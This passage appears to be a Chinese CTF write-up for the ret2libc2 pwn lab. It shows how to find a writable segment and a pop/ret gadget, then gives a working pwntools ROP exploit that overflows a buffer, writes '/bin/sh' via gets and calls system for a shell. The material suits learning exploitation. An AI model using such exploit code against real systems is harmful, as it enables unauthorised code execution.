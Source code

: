 ```
首先打个断点，运行，然后使用vmmap即可查找到哪些内存段具有写操作。
发现0x804a000是可以写的内存段，且也不是libc库的内存地址段，这样可以进行修改。
```

![image-20241217201940719](pwn二进制漏洞/image-20241217201940719.png)	

```
接下来还需要找具有pop和ret汇编的指令内存地址。
ROPgadget --binary ./ret2libc2 --only "pop|ret"
内存地址是0x0804843d
```

![image-20241217202344800](pwn二进制漏洞/image-20241217202344800.png)	

```python
这个exp2.py的代码，可以用于验证这个二进制文件的漏洞。
from pwn import *
context(arch = "i386",os = "linux",log_level="debug")
p = process("./ret2libc2")
e = ELF("./ret2libc2")
system_plt_addr = e.plt["system"]
gets_plt_addr = e.plt["gets"]

bin_sh_addr = 0x804b000-0x10 #由于/bin/sh肯定不超过16B,于是减0x10也够写入了。
#0x0804843d : pop ebx ; ret
pop_addr = 0x0804843d

offset = 112
payload =offset*b'a' + p32(gets_plt_addr) + p32(pop_addr) + p32(bin_sh_addr) + p32(system_plt_addr) + p32(0)+ p32(bin_sh_addr)
#payload =offset*b'a' + p32(gets_plt_addr) + p32(system_plt_addr) + p32(bin_sh_addr) + p32(bin_sh_addr)
#两个payload都可以，第二个是我自己构建的payload.
pause()
p.sendlineafter("What do you think ?",payload)

p.interactive()
```
